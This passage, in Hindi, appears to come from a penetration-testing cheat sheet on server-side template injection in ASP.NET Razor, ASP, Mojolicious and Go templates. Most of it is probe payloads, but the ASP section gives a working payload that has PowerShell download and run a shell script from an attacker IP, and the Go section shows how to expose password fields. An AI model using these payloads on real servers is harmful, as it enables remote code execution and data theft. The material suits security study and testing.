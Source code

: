 .NET `System.Diagnostics.Process.Start` विधि का उपयोग सर्वर पर किसी भी प्रक्रिया को शुरू करने के लिए किया जा सकता है और इस प्रकार एक वेबशेल बनाया जा सकता है। आप एक कमजोर वेबऐप उदाहरण [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp) में पा सकते हैं।

**अधिक जानकारी**

* [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-\(SSTI\)-in-ASP.NET-Razor/)
* [https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)

### ASP

* `<%= 7*7 %>` = 49
* `<%= "foo" %>` = foo
* `<%= foo %>` = कुछ नहीं
* `<%= response.write(date()) %>` = \<Date>
```xml
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/shell.ps1')").StdOut.ReadAll() %>
```
**अधिक जानकारी**

* [https://www.w3schools.com/asp/asp\_examples.asp](https://www.w3schools.com/asp/asp\_examples.asp)

### Mojolicious (Perl)

यह भले ही Perl है, लेकिन यह Ruby में ERB की तरह टैग का उपयोग करता है।

* `<%= 7*7 %> = 49`
* `<%= foobar %> = Error`
```
<%= perl code %>
<% perl code %>
```
### SSTI in GO

Go के टेम्पलेट इंजन में, इसके उपयोग की पुष्टि विशिष्ट पेलोड के साथ की जा सकती है:

* `{{ . }}`: डेटा संरचना इनपुट को प्रकट करता है। उदाहरण के लिए, यदि एक ऑब्जेक्ट जिसमें `Password` विशेषता है, पास किया जाता है, तो `{{ .Password }}` इसे उजागर कर सकता है।
* `{{printf "%s" "ssti" }}`: "ssti" स्ट्रिंग प्रदर्शित करने की अपेक्षा की जाती है।
* `{{html "ssti"}}`, `{{js "ssti"}}`: ये पेलोड "html" या "js" को जोड़ने के बिना "ssti" लौटाने चाहिए। आगे के निर्देशों को Go दस्तावेज़ में [यहां](https://golang.org/pkg/text/template) खोजा जा सकता है।
